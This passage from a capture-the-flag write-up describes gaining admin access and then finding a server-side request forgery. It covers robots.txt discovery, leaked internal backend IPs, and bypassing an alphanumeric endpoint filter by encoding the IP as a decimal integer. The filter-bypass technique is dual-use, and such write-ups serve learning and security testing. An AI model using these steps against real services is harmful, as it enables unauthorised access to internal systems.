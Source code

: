```py
# cyberz 8dbadad6b8558891ca60625fd547da21
```

And we send zledge our greatest gratitude for using a password starting with c.

# Finding the SSRF
Now we are admin but there isn't a lot to do. Eventually we find `/robots.txt` and see there exists a `/status`.

```
User-agent: *
Disallow: /status
```

Unfortunately `/status` doesn't contain any vulnerable code, but thankfully there is a link to the legacy `/status/old` which exposes two urls, one for the frontend, and one for the backend-auth.

```html
Check the status for the following applications here: 
<ul>
    <li><a href="/status/frontend">Frontend</a></li>
    <li><a href="/status/backend">Backend-auth</a></li>
</ul>
```

These actually redirect to
```
/status/10.100.136.198
/status/10.100.213.173
```

We cannot just change the IP to another one as it 404s (try `localhost` or `127.0.0.1`), but it reveals to us that the IP of the backend is `10.100.213.173`.

We can now abuse the new status page my noticing the request it makes to actually get the status.
```js
health_checker = function() { 
    $.post("/heartbeat?endpoint=localhost/ping&response=po", function(data) {
    // -snip-
```

Trying to set `endpoint=10.100.213.173` results in the following error:
```json
{
    "reason": "Only alphanumeric and /,: and @ is allowed in endpoint argument",
    "status": "error"
}
```

We can therefore encode the IPv4 address as a decimal instead of the standard octal representation, which does work.
```py
  10.100.213.173
= (10 << 24) + (100 << 16) + (213 << 8) + (173)
= 174380461
```
We have now achieved an SSRF, we can send arbitrary requests to the backend.
